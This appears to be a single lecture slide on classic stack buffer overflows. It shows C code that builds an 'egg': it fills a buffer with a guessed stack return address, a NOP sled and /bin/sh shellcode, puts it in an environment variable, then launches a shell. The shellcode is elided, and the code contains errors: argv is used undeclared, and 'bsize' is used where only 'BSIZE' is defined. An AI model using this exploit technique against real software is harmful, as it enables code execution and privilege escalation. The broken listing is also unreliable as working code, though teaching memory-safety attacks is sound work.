

# Creating the “Egg”
#define OFFSET 0
#define BSIZE 612 // Buffer length (> 512)
#define NOP 0x90
char shellcode[] = "\xeb\x1f...\x0b"
               "\x80... \xff/bin/sh";
unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}
void main() {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=OFFSET, i;
  if (argv[1] != NULL)
    offset = atoi(argv[1]);
  /* Creates the attack buffer */
  buff = malloc(BSIZE);
  /* Gets the SP and computes the offset */
  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  addr_ptr = (long *) buff;
  /* Initializes buff with the chosen address */
  for (i = 0; i < BSIZE; i+=4)
    *(addr_ptr++) = addr;
  /* Fills the first half of the buffer with NOP instructions */
  for (i = 0; i < BSIZE/2; i++)
    buff[i] = NOP;
  /* Adds the shell code between the NOP sled and the address */
  ptr = buff + ((BSIZE/2) - (strlen(shellcode)/2));
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];
  buff[bsize - 1] = '\0';

  /* Puts the EGG variable in the environment an starts a shell */
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}